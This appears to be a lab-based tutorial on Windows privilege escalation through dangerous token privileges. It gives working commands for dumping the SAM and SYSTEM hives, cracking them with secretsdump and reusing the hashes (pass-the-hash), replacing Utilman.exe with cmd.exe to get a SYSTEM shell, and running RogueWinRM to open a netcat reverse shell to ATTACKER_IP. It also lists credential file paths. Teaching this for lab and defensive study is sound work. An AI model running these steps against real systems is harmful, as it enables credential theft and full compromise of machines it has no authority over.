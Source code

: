 # **Abusing dangerous privileges - Windows Privilege Escalation**

***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/622cad3d-d7d0-458d-8009-3b82ea044286)

**In the realm of Windows security, certain privileges wield considerable power, capable of exerting control over critical system functions. These are what we refer to as "Dangerous Privileges." These elevated permissions, when misused or exploited, pose significant risks to the overall integrity and security of the operating system. Here is a Practical Breakdown on How Certain privileges in Windows could lead to Unauthorized Access**

***


- Run this command to check for privileges


```
whoami /priv
```

- Note that only those privileges that allow us to escalate in the system are of interest.


## **SeBackup / SeRestore**


![](https://i.imgur.com/y9LrrrW.png)





- With this privilege, we can backup the SAM and SYSTEM hashes, we can use the following commands:


```
reg save hklm\system C:\Users\THMBackup\system.hive

reg save hklm\sam C:\Users\THMBackup\sam.hive
```


- Now go ahead and send this 2 files to our attacker machine using any method you like



![](https://i.imgur.com/RrsUzEY.png)



- And use `impacket-secretsdump` to retrieve the users' password hashes:



```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```




![](https://i.imgur.com/HZUGMA0.png)


- We can then use pass the hash to login


![](https://i.imgur.com/7xIilg8.png)




## **SeTakeOwnership**



![](https://i.imgur.com/Y2z3mob.png)



- We can then abuse `utilman.exe`, a built-in Windows application used to provide Ease of Access options during the lock screen


![](https://i.imgur.com/MS2BtF5.png)



- To replace `utilman`, we will start by taking ownership of it with the following command:


```
takeown /f C:\Windows\System32\Utilman.exe
```


- Then give your current user full permissions over `utilman.exe` you can use the following command:



```
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
```




**_Example_**



![](https://i.imgur.com/YFNbx3T.png)



- After this, we will replace `utilman.exe` with a copy of `cmd.exe`:




```
copy cmd.exe utilman.exe
```



- To trigger `utilman`, we will lock our screen from the start button
- proceed to click on the **"Ease of Access"** button, which runs `utilman.exe` with `SYSTEM` privileges. Since we replaced it with a `cmd.exe` copy.



![](https://i.imgur.com/oeLERDx.png)


### **Extra**

Use this with files that might contain credentials such as

- `%WINDIR%\repair\sam`
- `%WINDIR%\repair\system`
- `%WINDIR%\repair\software`
- `%WINDIR%\repair\security`
- `%WINDIR%\system32\config\security.sav`
- `%WINDIR%\system32\config\software.sav`
- `%WINDIR%\system32\config\system.sav`
- `%WINDIR%\system32\config\SecEvent.Evt`
- `%WINDIR%\system32\config\default.sav`
- `c:\inetpub\wwwwroot\web.config`



## **SeImpersonate / SeAssignPrimaryToken**


- These privileges allow a process to impersonate other users and act on their behalf.


![](https://i.imgur.com/Ztfr87a.png)



- Start a netcat listener to receive a reverse shell on our attacker's machine:


```bash
nc -lvnp 4444
```



- And then, use our web shell to trigger the `RogueWinRM` exploit using the following command
- Make sure to transfer [win-netcat](https://github.com/sec-fortress/Exploits/blob/main/nc64.exe) and [RogueWinRM](https://github.com/sec-fortress/Exploits/blob/main/RogueWinRM.exe) to target machine
- Also note that the `RogueWinRM` file stated earlier might not work, so download from [here](https://github.com/antonioCoco/RogueWinRM) and compile in the windows machine


```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4444"
```



![](https://i.imgur.com/EGtIOIr.png)


That will be all for today, Have Fun 🥳🙏


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>





